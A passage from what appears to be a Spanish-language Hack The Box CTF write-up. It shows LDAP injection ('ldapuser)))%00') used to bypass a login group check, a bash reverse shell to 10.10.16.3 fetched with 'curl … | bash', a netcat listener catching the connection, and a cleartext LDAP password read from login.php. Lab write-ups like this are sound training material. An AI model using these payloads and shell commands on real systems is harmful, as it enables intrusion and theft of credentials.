 Se me abre un nuevo formulario al iniciar sesión

<img src="/writeups/assets/img/CTF-htb/10.png" alt="">

No puedo ejecutar comandos ya que el usuario ```ldapuser``` no pertenece al grupo ```root``` ni ```adm```

<img src="/writeups/assets/img/CTF-htb/11.png" alt="">

Para bypassear esta validación, voy a loggearme pero separando el resto de campos con ```ldapuser)))%00```  interceptando la petición con ```BurpSuite``` y dándole a ```Forward```. Puedo ejecutar comandos como ```apache`` 

<img src="/writeups/assets/img/CTF-htb/12.png" alt="">

Creo un archivo ```index.html``` que se encargue de enviarme una reverse shell

```null
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.3/443 0>&1'
```

Ejecuto un ```curl 10.10.16.3 | bash``` y recibo la conexión en una sesión de ```netcat```

```null
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.122] 54680
bash: no job control in this shell
bash-4.2$ whoami
whoami
apache
```

En el archivo ```login.php``` hay credenciales en texto claro

```null
cat login.php | head -n 10
<!doctype html>
<?php
session_start();
$strErrorMsg="";

$username = 'ldapuser';
$password = 'e398e27d5c4ad45086fe431120932a01';

$basedn = 'dc=ctf,dc=htb';
$usersdn = 'cn=users';
bash-4.2$ cat login.php | head -n 8
cat login.php | head -n 8
<!doctype html>
<?php
session_start();
```